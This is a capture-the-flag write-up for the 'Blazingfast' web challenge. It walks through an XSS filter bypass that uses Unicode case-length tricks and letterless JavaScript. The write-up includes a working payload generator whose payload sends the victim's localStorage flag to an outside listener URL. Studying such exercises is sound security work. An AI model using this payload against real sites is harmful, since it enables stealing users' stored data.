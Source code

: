 ## Blazingfast

In this chall, we are given a blazing fast MoCkInG CaSe converter written by WASM. Take a look at its source code

index file:

```javascript
    let blazingfast = null;

function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
	} else {
		let mocking = '', buf = blazingfast.read();

		while(buf != 0) {
			mocking += String.fromCharCode(buf);
			buf = blazingfast.read();
		}

		return mocking;
	}
}

function demo(str) {
	document.getElementById('result').innerHTML = mock(str);
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {	
	blazingfast = instance.exports;

	document.getElementById('demo-submit').onclick = () => {
		demo(document.getElementById('demo').value);
	}

	let query = new URLSearchParams(window.location.search).get('demo');

	if (query) {
		document.getElementById('demo').value = query;
		demo(query);
	}
})
```
blazingfast.c file:

```c
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

We can see that the `demo` function is called whenever we click on *Mock me* button. And the `demo` function will call `mock` function which was written in javascript. What this function do is get the length of our input before upper our string and it leads to [inconsistencies in length measurement of some Unicode characters](https://stackoverflow.com/questions/49895784/change-to-length-with-touppercase). I will explain it briefly: you have a special character and after uppercase that character, it will turn into 2 or 3 character. If we use a string of many special characters and its string length is greater than our payload, we can bypass the filter and inject XSS to the program.

However, when we input our payload, some of the input character will be convert to uppercase and the payload will not work. For example, `eval()` will work but `EVAL()` will not work. So we must find a way to bypass this. We can bypass this using the method was provided in this [post](https://techiavellian.com/constructing-an-xss-vector-using-no-letters). Please read that post to understand the method.

We can use the above method to create a function, then convert the inject code we want to octal to inject. We can't continue to use the above method because of the limit of the buffer (1000). Please remember that we must put our octal code in `""` and add a slash before every character in octal form to make it work.

The payload will be like this: `<img src=1 onerror='fetch("https://ATTACKER_URL/?" + localStorage.getItem("flag"))'>` with the fetch part written with the above method. Remember to use special character to help our payload bypass the filter. One special character can turn into 2 or 3 characters after uppercase, so the number of special character will be equal to length(payload)/2 and plus 1 to make sure it enough to cover our payload. The formula for the payload is: `special character*(length(payload)/2+1)+payload`.

This is my code to create the payload. The url I use to listen to request is *https://en3lcrt2nuh0hsi.m.pipedream.net*, so I convert it to octal form and encode the url or it will not work. Please remember to change the payload using your url.

```python

payload = '<img src=1 onerror=\'""[(!1+"")[3]+(!0+"")[2]+({}+"")[2]][({}+"")[5]+({}+"")[1]+((""[(!1+"")[3]+(!0+"")[2]+({}+"")[2]])+"")[2]+(!1+"")[3]+(!0+"")[0]+(!0+"")[1]+(!0+"")[2]+({}+"")[5]+(!0+"")[0]+({}+"")[1]+(!0+"")[1]]("\\146\\145\\164\\143\\150\\050\\042\\150\\164\\164\\160\\163\\072\\057\\057\\145\\156\\063\\154\\143\\162\\164\\062\\156\\165\\150\\060\\150\\163\\151\\056\\155\\056\\160\\151\\160\\145\\144\\162\\145\\141\\155\\056\\156\\145\\164\\057\\077\\042\\053\\154\\157\\143\\141\\154\\123\\164\\157\\162\\141\\147\\145\\056\\147\\145\\164\\111\\164\\145\\155\\050\\042\\146\\154\\141\\147\\042\\051\\051")()\'>'
special_char = 'ﬃ'
print(special_char*(len(payload)//2+1)+requests.utils.quote(payload))

```

Then I use the output from the code above to paste it in the admin bot url. The url will be like this:

`https://blazingfast.mc.ax/?demo=<your payload>&submit=Submit`

After a while, I receive the flag

![success](https://live.staticflickr.com/65535/51868510312_cfd760c8b7_z.jpg)


You can solve this chall by another way which is used in this [post](https://19521646.gitbook.io/wu-ctf/dicectf).

I also read this [writeup](https://ctf.zeyu2001.com/2022/dicectf-2022/blazingfast?fbclid=IwAR31D10A-j2KTB54FDedcwtuE0mmcaqorThG3tb_A-9C46vWIl93xMeAGok) to be able to solve this challenge.